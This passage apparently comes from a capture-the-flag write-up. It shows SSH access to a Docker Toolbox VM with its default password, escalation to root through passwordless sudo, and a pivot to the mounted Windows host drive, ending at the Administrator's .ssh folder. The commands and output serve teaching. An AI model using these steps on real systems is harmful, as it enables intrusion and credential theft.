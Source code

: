 ```bash
postgres@bc56e3cc55e9:/tmp$ ssh docker@172.17.0.1
docker@172.17.0.1s password: # tcuser
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ hostname -i                                                      
127.0.0.1
```
So the machine we accessed is not the host. Let's enumerate it.

## Pivoting to host machine
Check the users with a shell:
```bash
docker@box:~$ cat /etc/passwd | grep "sh$"                                     
root:x:0:0:root:/root:/bin/bash
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
tc:x:1001:50:Linux User,,,:/home/tc:/bin/sh
docker:x:1000:50:Docker:/home/docker:/bin/bash
docker@box:~$ ls /home                                                         
docker     dockremap
```
If we check the sudoers file:
```bash
docker@box:~$ sudo -l                                                          
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
```
We can then obtain a root user:
```bash
docker@box:~$ sudo su                                                          
root@box:/home/docker# whoami
root
```
But if we list the root directory:
```bash
root@box:/home/docker# ls /                                                    
bin           home          linuxrc       root          sys
c             init          mnt           run           tmp
dev           lib           opt           sbin          usr
etc           lib64         proc          squashfs.tgz  var
root@box:/home/docker# ls /c                                                   
Users
root@box:/home/docker# ls /c/Users/                                            
Administrator  Default        Public         desktop.ini
All Users      Default User   Tony
```
We can see that the `c` drive of the host machine is mounted on the `/` directory of the container. If we check `C:/Users/Administrator/` we can see a `.ssh` folder:
```bash
root@box:/c/Users/Administrator# ls -la                                        
total 1453
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 Jun  5 10:11 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 3D Objects
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 AppData
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 Application Data
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Contacts
drwxrwxrwx    1 docker   staff            0 Sep 15  2018 Cookies
dr-xr-xr-x    1 docker   staff            0 Feb  8  2021 Desktop
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 Documents
```